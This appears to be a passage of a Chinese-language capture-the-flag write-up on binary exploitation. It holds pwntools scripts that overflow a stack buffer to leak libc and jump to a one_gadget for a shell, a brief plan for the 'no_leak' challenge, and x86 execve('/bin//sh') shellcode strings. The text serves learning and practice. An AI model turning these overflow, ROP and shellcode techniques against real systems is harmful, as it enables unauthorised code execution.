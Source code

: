```python

print hex(231+libc.sym['__libc_start_main'])#0x21a87

while True:
	try:
		p = remote("nc.eonew.cn","10004")
		# 0x7fbc96184a87; __libc_start_main+231
		# 0x7FBC96163000
		# 0x00007fbc96185a2f : nop ; add rsp, 8 ; pop rbx ; pop rbp ; ret
		pay = 'a'*0x80+'x'*8+'\x2f\x5a'
		sl(pay)
		libc_base = uu64()-0x22A2f# -231-libc.sym['__libc_start_main']
		lg('libc_base')
		one = libc_base+0x415a6
		sl('a'*0x80+'x'*8+p64(one))
		sl("echo xxx")
		ru('xxx')
		p.interactive()
	except:
		pass
```

![image-20220713155917683](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220713155917683.png)

## no_leak

![image-20220717222241851](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220717222241851.png)

题目很简单，只有一个read存在溢出

利用思路：栈迁移到bss段输入并执行libc_start_main，就会导致bss段上留下了libc的地址，然后再利用magic进行可用地址为system，最后csu1call调用system

![image-20220717222408344](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220717222408344.png)

![image-20220717222329887](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220717222329887.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
# context.log_level='debug'

p = process("./no_leak")
p = remote("nc.eonew.cn","10002")
elf = ELF("./no_leak")
# libc = ELF("./libc.so.6")
libc = elf.libc

def dbg(con=""):
    gdb.attach(p,con)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```